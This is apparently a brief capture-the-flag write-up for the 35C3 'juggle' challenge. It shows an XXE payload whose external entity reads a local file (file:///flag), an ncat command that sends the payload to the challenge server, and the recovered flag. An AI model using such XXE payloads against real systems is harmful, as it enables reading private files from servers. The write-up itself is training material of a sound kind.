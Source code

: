 # juggle

XXE

payload:

```xml
<!DOCTYPE kaibro[
        <!ENTITY xxe SYSTEM "file:///flag">
]>
<root>&xxe;</root>
```

ncat 35.246.237.11 1 < payload.xml

`35C3_The_chef_gives_you_his_compliments`
